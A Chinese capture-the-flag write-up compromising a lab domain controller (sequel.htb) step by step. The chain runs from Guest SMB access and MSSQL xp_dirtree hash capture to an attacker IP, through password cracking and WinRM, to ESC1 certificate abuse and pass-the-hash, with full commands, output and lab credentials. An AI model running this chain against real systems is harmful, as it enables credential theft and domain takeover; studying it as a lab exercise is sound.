

# 00. 摘要

> 关键词：Guest账户、MSSQL xp_dirtree、WINRM、ESC1提权

1. 使用 `Guest` 账户枚举SMB服务，拿到 `PublicUser` 账户
2. 使用 `PublicUser` 账户登录mssql，通过`xp_dirtree` 拿到 sql_svc 账户的 NetNTLM hash
3. 哈希爆破得到 `sql_svc` 账户的明文密码
4. 使用 `sql_svc` 账户枚举，通过WINRM服务连接受害机
5. 信息收集，从SQLServer日志文件中拿到 `Ryan.Cooper` 账户
6. 使用 `Ryan.Cooper` 账户枚举ADCS服务，发现存在 ESC1 漏洞
7. 使用 ESC1 漏洞提权到 `Administrator`

# 01. 信息收集

使用 `rustscan` 进行端口扫描，发现如下开放端口

```bash
kali@kali[~]$ rustscan -u 5000 -a 10.10.11.202
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Making sure 'closed' isn't just a state of mind.

[~] The config file is expected to be at "/home/player/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.202:53
Open 10.10.11.202:88
Open 10.10.11.202:135
Open 10.10.11.202:139
Open 10.10.11.202:389
Open 10.10.11.202:445
Open 10.10.11.202:464
Open 10.10.11.202:593
Open 10.10.11.202:636
Open 10.10.11.202:1433
Open 10.10.11.202:3268
Open 10.10.11.202:3269
Open 10.10.11.202:5985
Open 10.10.11.202:9389
```

# 02. 使用Guest账户枚举 SMB服务

在没有任何账户的情况下，尝试使用Windows内置的Guest账户枚举SMB文件共享

```bash
kali@kali[~]$ netexec smb 10.10.11.202 -u "Guest" -p "" --shares
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\Guest: 
SMB         10.10.11.202    445    DC               [*] Enumerated shares
SMB         10.10.11.202    445    DC               Share           Permissions     Remark
SMB         10.10.11.202    445    DC               -----           -----------     ------
SMB         10.10.11.202    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.202    445    DC               C$                              Default share
SMB         10.10.11.202    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.202    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.202    445    DC               Public          READ            
SMB         10.10.11.202    445    DC               SYSVOL                          Logon server share 
```

发现可以使用Guest账户访问SMB共享，并且对 `Public` 目录有可读权限。从该目录中找到一个名叫 `SQL Server Procedures.pdf` 的PDF文件。

```bash
kali@kali[~]$ impacket-smbclient Guest@10.10.11.202 -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Public
# tree
/SQL Server Procedures.pdf
Finished - 0 files and folders
# get SQL Server Procedures.pdf
```

读取该PDF文件，从中找到一个可以访问mssql服务的账号密码
```
username: PublicUser
password: GuestUserCantWrite1
```

# 03. 使用PublicUser攻击MSSQL

使用 `PublicUser` 账户登上 MSSQL 服务，通过 `xp_dirtree` 强制 MSSQL 服务向攻击机发起身份认证。并且通过 `Responder` 捕获该认证信息。

注：先启动 `responder` 的监听，再使用 `xp_dirtree` 强制发起认证。

```bash
kali@kali[~]$ impacket-mssqlclient 'PublicUser':'GuestUserCantWrite1'@'10.10.11.202'        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (PublicUser  guest@master)> xp_dirtree \\10.10.14.13\hello
subdirectory   depth   file   
------------   -----   ----   
SQL (PublicUser  guest@master)> 
```

```bash
kali@kali[~]$ sudo responder -I tun0 -v
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

<省略...>

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.11.202
[SMB] NTLMv2-SSP Username : sequel\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::sequel:7f514eff552e36ad:0E22926DE3D38F6FE7707796FC4D4E25:010100000000000000B465D1A28ADB01A8936D475B4A1ACC0000000002000800420035005300360001001E00570049004E002D004B0033003900560038004100500048005A004F004C0004003400570049004E002D004B0033003900560038004100500048005A004F004C002E0042003500530036002E004C004F00430041004C000300140042003500530036002E004C004F00430041004C000500140042003500530036002E004C004F00430041004C000700080000B465D1A28ADB010600040002000000080030003000000000000000000000000030000048BEE3A659A3632382A8ED79E76C041E3584E054C2B1CD5E71DE95367389C4980A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00310033000000000000000000
```

我们成功通过 `responder` 捕获到了 `sql_svc` 用户的 NetNTLM 哈希。

使用哈希爆破工具 `john` 选用 kali 自带的`rockyou.txt` 字典爆破该哈希，得到 `sql_svc` 用户的明文密码

```bash
kali@kali[~]$ john sql_svc_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)     
1g 0:00:00:14 DONE (2025-03-01 12:16) 0.06958g/s 744662p/s 744662c/s 744662C/s REINLY..REDMAN69
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

```
username: sql_svc
password: REGGIE1234ronnie
```

使用该账户进一步枚举，发现该账户有WINRM服务的权限

```bash
kali@kali[~]$ netexec winrm 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'    
WINRM       10.10.11.202    5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:sequel.htb)
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie (Pwn3d!)
```

# 04. 后信息收集

我们已经通过枚举，得到 `sql_svc` 账户有WINRM服务的权限。我们使用该账户通过 `evil-winrm` 远程登录主机。经过一番信息收集，我们在 `C:\SQLServer\Logs\ERRORLOG.BAK` 这个MSSQL的日志文件里面，找到了 `Ryan.Cooper` 账户。

```bash
kali@kali[~]$ evil-winrm -i 10.10.11.202 -u sql_svc -p REGGIE1234ronnie
                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents> type C:\SQLServer\Logs\ERRORLOG.BAK
2022-11-18 13:43:05.96 Server      Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
        Sep 24 2019 13:48:23
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard Evaluation 10.0 <X64> (Build 17763: ) (Hypervisor)

<省略...>
2022-11-18 13:43:07.44 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. 
<省略...>
```

```
username: Ryan.Cooper
password: NuclearMosquito3
```

使用该账户进一步枚举，发现该账户有LDAPS服务的权限

```bash
kali@kali[~]$ netexec ldap 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3'
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)LDAPS       10.10.11.202    636    DC               [+] sequel.htb\Ryan.Cooper:NuclearMosquito3
```

# 05. ESC1提权

由于该机器存在LDAPS服务，并且 `Ryan.Cooper` 有权限访问LDAPS服务。我们尝试使用该用户枚举并寻找ADCS服务是否存在以及是否有漏洞。

```bash
kali@kali[~]$ certipy-ad find -u 'Ryan.Cooper' -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -stdout -vulnerable   
Certipy v4.8.2 - by Oliver Lyak (ly4k)

<省略...>
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
<省略...>
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
[4] Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
[5] Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
[4] Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
[2] Requires Manager Approval           : False
    Requires Key Archival               : False
[3] Authorized Signatures Required      : 0
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
[1]                                       SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
<省略...>
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
                                                                                                                                                        
```

从枚举结果可知，可以使用 `Ryan.Cooper` 进行 `ESC1` 攻击，让我们详细分析下，为什么我们可以使用 ESC1 攻击：

ESC1攻击所需要的前提条件为
1. Enterprise CA授予低权限账户注册权
2. Manager approval处于关闭状态(这样申请的证书就会自动通过，而不需要管理人员手动批准)
3. 不需要授权签名
4. Certificate Template定义了启用身份认证的 EKU。
5. Certificate Template允许请求者在 `CSR` 中指定 `subjectAltName (SAN)` (这一步可以让攻击者自行指定证书的"主体信息"。也就是说攻击者可以声明这张证书的主体是"Administrator"，那么攻击者使用这张证书向域控发起身份认证的时候，域控就会认为攻击者是"Administrator")。

从`certipy`的扫描结果我们可以看到完全满足 ESC1 攻击的条件(为方便阅读，我将每一条对应条件都使用编号的形式标记在了上面的扫描结果中)
1. 注册权(Enrollment Rights --> SEQUEL.HTB\Domain Users 默认所有域用户都在这个组，所以我们控制的 `Ryan.Cooper` 账户具有该注册权)
2. Manager approval处于关闭状态(Requires Manager Approval--> False)
3. 不需要授权签名(Authorized Signature Required --> 0)
4. 启用客户端认证(Client Authentication --> True) 或者 扩展密钥使用客户端认证(Extended Key Usage --> Client Authentication).
5. 允许请求者在 `CSR` 中指定 `(SAN)`(Enrollee Supplies Subject --> True)

接下来我们来利用ESC1漏洞提权到 `Administrator` 权限

```bash
kali@kali[~]$ certipy-ad req -u 'Ryan.Cooper' -p 'NuclearMosquito3' -ca sequel-DC-CA -dc-ip 10.10.11.202 -template UserAuthentication -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 17
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

kali@kali[~]$ certipy-ad auth -pfx administrator.pfx -username Administrator -domain sequel.htb -dc-ip 10.10.11.202
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

现在我们有 Administrator 账户的NT hash了，可以使用 `psexec` 通过PTH连接到受害机器

```bash
kali@kali[~]$ impacket-psexec 'administrator@sequel.htb' -hashes aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on sequel.htb.....
[*] Found writable share ADMIN$
[*] Uploading file bqmCntxG.exe
[*] Opening SVCManager on sequel.htb.....
[*] Creating service aODY on sequel.htb.....
[*] Starting service aODY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```

---
# 参考链接
1. 文章：使用Guest账户访问SMB
   https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smb/index.html#list-shared-folders
2. 文章：通过MSSQL的xp_dirtree窃取NetNTLM hash
   https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html#steal-netntlm-hash--relay-attack
3. 文章：ADCS ESC1攻击
   https://www.thehacker.recipes/ad/movement/adcs/certificate-templates#esc1-template-allows-san
4. 工具：NetExec
   https://github.com/Pennyw0rth/NetExec
5. 工具：Impacket
   https://github.com/fortra/impacket
6. 工具：evil-winrm
   https://github.com/Hackplayers/evil-winrm
7. 工具：RustScan
   https://github.com/RustScan/RustScan
8. 工具：Responder
   https://github.com/SpiderLabs/Responder
9. 工具：Certipy
   https://github.com/ly4k/Certipy
10. 工具：John the Ripper
    https://github.com/openwall/john

